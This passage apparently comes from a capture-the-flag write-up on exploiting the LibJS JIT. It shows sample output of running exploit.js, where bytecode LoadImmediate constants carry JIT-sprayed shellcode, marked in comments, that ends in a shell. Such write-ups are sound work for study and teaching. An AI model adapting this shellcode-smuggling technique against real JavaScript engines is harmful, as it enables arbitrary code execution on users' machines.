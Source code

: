### sample output

Shown below is the output from running our exploit in a version of the challenge patched to also output the generated bytecode and assembly, as you can see, we get our negative jump, shellcode, and finally shell!
Unimportant parts of the disassembly and bytecodes are removed to keep the output short, and important parts of the exploit payload are marked with comments.

```shell
$ LIBJS_JIT=1 ./js -d exploit.js

JS::Bytecode::Executable ()
1:
[   0] CreateLexicalEnvironment
[  18] CreateVariable env:Lexical immutable:false global:false 0 (i)
[  40] Store $6
(....)
7:
[   0] LoadImmediate undefined
[  20] LoadImmediate 166396010    #--> main shellcode
[  40] LoadImmediate 166422634
[  60] LoadImmediate 166425450
[  80] LoadImmediate 166408042
[  a0] LoadImmediate 166424170
[  c0] LoadImmediate 166422890
[  e0] LoadImmediate 166421098
[ 100] LoadImmediate 166408042
[ 120] LoadImmediate 384524115
[ 140] LoadImmediate 13404651
[ 160] LoadImmediate 166432856
[ 180] LoadImmediate 166396808
[ 1a0] LoadImmediate 166446078
[ 1c0] LoadImmediate 166432856
[ 1e0] LoadImmediate 166396808
[ 200] LoadImmediate 166446078
[ 220] LoadImmediate 166432856
[ 240] LoadImmediate 384500616
[ 260] LoadImmediate 13404651
[ 280] LoadImmediate 166446078
[ 2a0] LoadImmediate 166432856
[ 2c0] LoadImmediate 166396808
[ 2e0] LoadImmediate 166446078
[ 300] LoadImmediate 166432856
[ 320] LoadImmediate 166396808
[ 340] LoadImmediate 166446078
[ 360] LoadImmediate 384536664
[ 380] LoadImmediate 13404651
[ 3a0] LoadImmediate 166396808
[ 3c0] LoadImmediate 166446078
[ 3e0] LoadImmediate 166432856
[ 400] LoadImmediate 166396808
[ 420] LoadImmediate 166446078
[ 440] LoadImmediate 166432856
[ 460] LoadImmediate 166396808
[ 480] LoadImmediate 384549886
[ 4a0] LoadImmediate 13404651
[ 4c0] LoadImmediate 166458929
[ 4e0] LoadImmediate 166449713
[ 500] LoadImmediate 166411114
[ 520] LoadImmediate 166432856
[ 540] LoadImmediate 166397199
[ 560] LoadImmediate 166398735
[ 580] LoadImmediate 166448332
[ 5a0] LoadImmediate 384552140
```